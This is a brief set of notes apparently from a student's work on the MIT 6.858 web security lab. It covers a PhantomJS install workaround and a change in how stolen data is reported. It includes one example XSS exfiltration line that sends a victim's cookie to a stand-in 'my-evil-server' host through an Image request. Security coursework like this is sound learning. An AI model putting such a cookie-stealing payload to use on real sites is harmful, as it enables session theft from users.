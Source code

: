 ## Notes

The link in `get-phantomjs.sh` is expired so I installed the latest version
from http://phantomjs.org/download.html.

Also, instead of the [email script](http://css.csail.mit.edu/6.858/2014/labs/sendmail.php)
I'm just issuing requests to a hyptothetical attack server, e.g.
`new Image().src = 'http://my-evil-server.xxx/?stolen_cookie=....'`.
